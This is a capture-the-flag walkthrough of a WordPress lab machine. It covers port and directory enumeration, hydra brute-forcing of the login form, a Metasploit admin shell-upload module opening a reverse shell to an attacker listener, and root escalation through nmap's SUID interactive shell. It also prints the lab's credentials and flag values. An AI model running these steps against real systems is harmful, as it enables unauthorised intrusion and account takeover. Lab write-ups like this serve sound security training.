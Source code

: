 url=192.168.1.1
# Enumeration

## Port scan
```sh
nmap -p- $url
```

Output:
```text
Nmap scan report for 192.168.1.1
Host is up (0.043s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

## Web Enumeration
```sh
feroxbuster -u http://$url:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -An
```

```text
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.1:80
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       24w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET      137l      464w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        0l        0w        0c http://192.168.1.1/sitemap
200      GET        1l      155w     8638c http://192.168.1.1/css/A.main-600a9791.css.pagespeed.cf.u3LLEOFQmH.css
200      GET       30l       98w     1188c http://192.168.1.1/index.html
301      GET        7l       20w      234c http://192.168.1.1/images => http://192.168.1.1/images/
301      GET        7l       20w      232c http://192.168.1.1/blog => http://192.168.1.1/blog/
200      GET       61l      849w    50555c http://192.168.1.1/js/s_code.js.pagespeed.jm.I78cfHQpbQ.js
301      GET        0l        0w        0c http://192.168.1.1/rss => http://192.168.1.1/feed/
302      GET        0l        0w        0c http://192.168.1.1/login => http://192.168.1.1/wp-login.php
200      GET        1l     2254w   182004c http://192.168.1.1/js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js
200      GET      820l     6033w   239300c http://192.168.1.1/js/main-acba06a5.js.pagespeed.jm.YdSb2z1rih.js
200      GET       30l       98w     1188c http://192.168.1.1/
301      GET        7l       20w      233c http://192.168.1.1/video => http://192.168.1.1/video/
301      GET        0l        0w        0c http://192.168.1.1/0 => http://192.168.1.1/0/
301      GET        0l        0w        0c http://192.168.1.1/feed => http://192.168.1.1/feed/
301      GET        0l        0w        0c http://192.168.1.1/image => http://192.168.1.1/image/
301      GET        0l        0w        0c http://192.168.1.1/atom => http://192.168.1.1/feed/atom/
301      GET        7l       20w      238c http://192.168.1.1/wp-content => http://192.168.1.1/wp-content/
301      GET        7l       20w      233c http://192.168.1.1/admin => http://192.168.1.1/admin/
301      GET        7l       20w      233c http://192.168.1.1/audio => http://192.168.1.1/audio/
200      GET     2028l    11941w   936742c http://192.168.1.1/intro
200      GET        1l      248w     6048c http://192.168.1.1/wp-includes/css/buttons.min.css,qver=4.3.1.pagespeed.ce.ZQERzcrubG.css
301      GET        7l       20w      231c http://192.168.1.1/css => http://192.168.1.1/css/
200      GET        1l      688w    24200c http://192.168.1.1/wp-admin/css/login.min.css
200      GET        1l       10w    46120c http://192.168.1.1/wp-includes/css/dashicons.min.css,qver=4.3.1.pagespeed.ce.5l-W1PUiez.css
200      GET       53l      158w     2657c http://192.168.1.1/wp-login.php
302      GET        0l        0w        0c http://192.168.1.1/wp-admin/ => http://192.168.1.1/wp-login.php?redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&reauth=1
200      GET       53l      158w     2657c http://192.168.1.1/wp-login
301      GET        0l        0w        0c http://192.168.1.1/rss2 => http://192.168.1.1/feed/
200      GET      156l       27w      309c http://192.168.1.1/license
301      GET        7l       20w      239c http://192.168.1.1/wp-includes => http://192.168.1.1/wp-includes/
301      GET        7l       20w      230c http://192.168.1.1/js => http://192.168.1.1/js/
301      GET        0l        0w        0c http://192.168.1.1/Image => http://192.168.1.1/Image/
301      GET        0l        0w        0c http://192.168.1.1/rdf => http://192.168.1.1/feed/rdf/
301      GET        0l        0w        0c http://192.168.1.1/page1 => http://192.168.1.1/
200      GET        1l       14w       64c http://192.168.1.1/readme
200      GET        3l        4w       41c http://192.168.1.1/robots
302      GET        0l        0w        0c http://192.168.1.1/dashboard => http://192.168.1.1/wp-admin/
301      GET        0l        0w        0c http://192.168.1.1/%20 => http://192.168.1.1/
404      GET        5l       15w      135c http://192.168.1.1/wp-trackback
```

### Intresting sites

$url/admin, just reloads everytime so not intresting

$url/login more intresting in next point

$url/robots
User-agent: *
fsocity.dic -> wordlist for cracking, downloaded to wordlist.txt
key-1-of-3.txt -> First key (073403c8a58a1f80d943455fb30724b9)

$url/license -> has base64 encoded a user/passwd = ZWxsaW90OkVSMjgtMDY1Mgo= -> elliot:ER28-0652



# Brute forcing

Takes pretty long, as the password is the ninth last of the fsocity.dic list.
## Username
```sh
hydra -L wordlist.txt -p dummyPassword $url http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&testcookie=1:F=Invalid username." -V
```

Username: elliot

## Password
```sh
hydra -l elliot -P wordlist.txt $url http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&testcookie=1:F=ERROR" -V
```


Passwort: ER28-0652

# Revshell

use  unix/webapp/wp_admin_shell_upload
set RHOSTS $url
set USERNAME elliot
set PASSWORD ER28-0652
set LHOST 192.168.1.158
set WPCHECK false
run

Doesn't work cause request doesn't come from `192.168.1.1`, but from `192.168.2.69`.
So this command achieves that, the traffic is routed back to 192.168.1.1:
```sh
sudo ip route add 192.168.2.69 dev eth1 via 192.168.1.1
```

then run again.
get revshell as daemon user


# Privesc
## To better user robot
cd /hom/robot
read password.raw-md5
crack with [online tool](https://crackstation.net)

Password for robot user: abcdefghijklmnopqrstuvwxyz

user key: 822c73956184f694993bede3eb39f959
## To root
To find all files owned by root and which have the sbit set
```sh
find / -user root -perm /4000 2>/dev/null
```

nmap has it set

with 
```sh
nmap --interactive
nmap>!sh
```

You are root
last key:
04787ddef27c3dee1ee161b21670b4e4